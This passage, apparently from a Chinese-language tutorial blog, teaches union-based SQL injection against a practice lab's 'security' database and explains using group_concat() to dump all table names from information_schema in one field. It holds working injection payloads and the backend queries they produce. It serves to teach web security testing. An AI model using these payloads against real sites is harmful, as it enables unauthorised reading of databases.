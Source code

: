 ```csharp
网站
?id=-1'union select 1,2,table_name from information_schema.tables where table_schema='security'-- +
 
 
数据库
 
select * from users where id='-1'union select 1,2,table_name from information_schema.tables where table_schema='security'-- +'
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/acb64191cc1246af1dbec9e54e615775.png" alt="" style="max-height:300px; box-sizing:content-box;" />


这里只会返回 第三列 email的列名 因为 我们是在 3 的地方进行查询

这里就要使用其他的聚合函数

#### group_concat()

```cobol
我们要知道 group_concat()
 
是通过将返回值 作为一个字符串返回的函数
 
很好理解
 
table_name from  information_schema.tables
 
这里 返回的table_name假设是  a b c 这里是3个返回值
 
group_concat(table_name) from  information_schema.tables
 
加上聚合函数返回的就是 "a b c"  变为了1个返回值
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/17fc49852fd4d525c1c345651c7740e9.png" alt="" style="max-height:317px; box-sizing:content-box;" />


从这里就可以看出来 只在3 返回了 并且返回的是一个字符串（所有的列名合为一个）

```csharp
网站
 
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'-- +
 
数据库
 
select * from users where id='-1'union select 1,2,GROUP_CONCAT(table_name) from information_schema.tables where table_schema='security'-- +'
```
